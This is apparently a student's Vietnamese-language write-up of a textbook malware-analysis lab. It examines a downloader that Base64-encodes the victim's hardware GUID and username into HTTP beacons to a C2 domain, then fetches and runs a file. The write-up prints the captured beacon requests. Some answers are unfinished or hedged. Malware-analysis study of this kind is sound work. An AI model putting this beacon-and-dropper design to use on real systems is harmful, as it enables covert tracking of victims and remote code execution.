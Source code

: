 # Ques 1:Which networking libraries does the malware use, and what are their advantages?
Mở malware vào IDA thì ta vào bảng Import tables thì ta sẽ thấy thư viện `Windows DLL urlmon.dll (OLE32 Extensions for Win32)` có sử dụng API `‘`URLDownloadToCacheFile’` sẽ leo thang lên COM objects
![](images/2025-10-02-21-27-03.png)

![](images/2025-10-02-21-29-41.png)
Sử dụng Fakenet-ng để bắt được HTTP request 
```
GET /ODA6NmU6NmY6NmU6Njk6NjMtSUVVc2Vy/y.png HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Trident/4.0;
SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E)
Host: www.practicalmalwareanalysis.com
Connection: Keep-Alive
```
Ở conmalware này thì có 1 ưu điểm là sử dụng COM giao diện giống như request API tự động lấy thông tin chính xác về `User_agent` từ hệ điều hành.
# Ques 2: What source elements are used to construct the networking beacon, and what conditions would cause the beacon to change?
Ở câu trên ta đã thấy GET request đến 1 đường link `ODA6NmU6NmY6NmU6Njk6NjMtSUVVc2Vy`. Chúng ta sẽ dịch thử base64 thì có được kết quả phía dưới
`80:6e:6f:6e:69:63-IEUser`. Ở mẫu này ta có thể thấy thành phần đầu tiên là địa chỉ MAC với dầu `-` và thông tin user đăng nhập vào. Nếu ta tìm địa chỉ MAC của hệ thống máy ảo này thì thấy không trùng khớp.
Mở malware bằng IDA.

Mở đầu của chương trình ta thấy gọi hàm `GetCurrentHwProfileA ` chạy đầu tiên đẻ lấy thông tin hệ thống , sau dó sẽ gọi hàm `GetUserNameA` để lấy tên user mà có sử dụng ở câu 1.

Ta có thể lấy GUID bằng cách nhập ở cmd lệnh sau
![](images/2025-10-02-22-00-45.png)
Từ đây ta có thể khẳng định các id kia không phải địa chi MAC mà là 12 byte cuối từ registry key.

Nếu ta chạy ở 1 máy ảo khác thì ta sẽ thấy 1 thông tin HTTP GET request khác
```
GET /ODA6NmQ6NjE6NzI6Njk6NmYtYm9i/i.png HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; .NET4.0C; .NET4.0E)
Host: www.practicalmalwareanalysis.com
Connection: Keep-Alive
```
![](images/2025-10-02-22-03-15.png)

Sau đó ta sẽ giải mã Base 64 và kiểm tra xem có khớp như dự đoán không
`80:6d:61:72:69:6f-bob`
![](images/2025-10-02-22-04-12.png)
Kết quả đúng như dự đoán.

# Quest 3:Why might the information embedded in the networking beacon be of interest to the attacker?
Thông tin trên thống như 1 dữ liệu duy nhatass như ID đại diện cho hệ thống và các user. Các hacer thích điều này vì muốn giữ liên lạc với các máy bị nhiễm và các hệ thống và user đặc biệt được nhắm đến.
# Quest 4:Does the malware use standard Base64 encoding? If not, how is the encoding unusual?
![](images/2025-10-02-22-15-26.png)
Nếu ta nhín vào String window của IDA thì sẽ thấy có 1 chuỗi giống như mã hóa Base 64 index string.

![](images/2025-10-02-22-18-37.png)
Bằng cách bấm X tìm reference của chuối string `byte_4050C0` thì ta đến được hàm `‘sub_401000’` có thể coi đây là hàm mã hóa. 1 điều thú vị là phần `padding` họ thay vì dùng dấu thì họ sẽ dùng `61h(a)`
![](images/2025-10-02-22-26-27.png)

Quest 5:What is the overall purpose of this malware?
Ta sẽ phân tích hàm `sub_4011A3` sau khi hàm mã hóa Base64 được chạy. Ở đây ta thấy có gọi hàm API `‘URLDownloadToCacheFileA` để tải file về thư mục cache và trả về filename/ địa chỉ.
![](images/2025-10-02-22-33-03.png)
Sau đó ta thấy có gọi 1 hàm `CreateProcessA` sẽ chạy file được tải về từ url. Tieps tục phân tích thì thấy nếu thành công thì sẽ sleep ‘0EA60h’ (60000) milliseconds

Từ đây ta có thể kết luận rằng đây là dạng malware ‘Downloader and Launcher’, or ‘Dropper’ đê tải và thực thi chương tình cho mục đích mai sau.

# Ques 6: What elements of the malware’s communication may be effectively detected using a network signature?
Ta sẽ để í đến địa chỉ GET sẽ được mã hóa bằng base64 có 1 file png có tên chứa 1 kí tự duy nhất. Đó là ký tự cuối cùng của mã hóa Base 64

Sau đó là địa chỉ `www.practicalmalwareanalysis.com` là C2 server.

Tiếp là các dấu giữa `-` GUID và username 

# Ques 7: What mistakes might analysts make in trying to develop a signature for this malware?
Ta thấy phần padding của mã hóa base 64 luôn trả về ký tự `a` thành ra là luôn tải về ảnh `a.png`

1 lỗi khác đó là sử dụng thông tin của các mục tiêu được thay đổi qua mỗi hệ thống khác nhau. Nếu điều này được setup để thông báo bất cứ luuw lượng nào đến domain này trong trường hợp bị xâm phạm hoặc được dùng lại thì viêc tạo rul sẽ rất dễ dàng ???

# Ques 8:What set of signatures would detect this malware (and future variants)?
Cái này mình xem giải =)))

Thanks for reading~~~!!!